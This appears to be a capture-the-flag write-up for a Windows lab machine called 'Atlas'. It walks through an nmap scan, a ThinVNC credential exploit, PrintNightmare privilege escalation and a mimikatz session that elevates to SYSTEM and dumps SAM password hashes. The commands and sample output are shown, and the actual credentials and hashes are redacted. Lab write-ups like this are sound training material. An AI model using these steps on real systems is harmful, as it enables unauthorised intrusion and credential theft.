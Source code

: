 # Atlas v1.4

## Enumeration

### NMAP Scan 

```bash 
nmap -p- -Pn -sC -sV -A -vv -oN nmap.scan IPaddr
```

I realized after I ran the above command that I didn't need the `-A`. I changed my mind half way through typing it and didn't remove the `-A`.
__*Ports*__
* 3389 Windows RDP
* 8080 ThinVNC

## Exploits

### Access - ThinVNC Exploit
> by Muirland Oracle

https://github.com/MuirlandOracle/CVE-2019-17662

[+] Credentials Found!
Username:       [REDACTED]
Password:       [REDACTED]

Now we can log into the ThinVNC service on port 8080. But since we have credentials, let's move into the Windows native RDP for a better interactive interface. 
```bash
xfreerdp /v:IPaddr /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

### Privilege Escalation - PrintNightmare
> by Caleb Stewart and John Hammond

https://github.com/calebstewart/CVE-2021-1675

### Post Exploitation - Mimikatz

Use this exploit to dump password hashes. Download mimikatz, move mimkatz to the tmp directory, and unzip the archive.
```bash
cd /tmp
mv ~/Downloads/mimikatz_trunk.zip .
unzip mimikatz_trunk.zip
```
Go back to the target computer. In RDP session use the elevated Command Shell to launch the exploit:
```bash
\\tsclient\share\mimikatz_trunk\x64\mimikatz.exe
```

If all goes well you get some nice ASCII art and a new mimikatz prompt. 

Before we run it, we usually need to execute two commands before dumping the hashes:
* `privilege::debug` - this obtains debug privileges which allows us to access other processes for "debuging" purposes.
* `token::elevate` - simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a *right* to do as an administrator, but that is not usually possible using normal Windows operations

There are several commands that can be used to dump the hashes. We will use: `lsadump::sam`.
```bash
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]
```
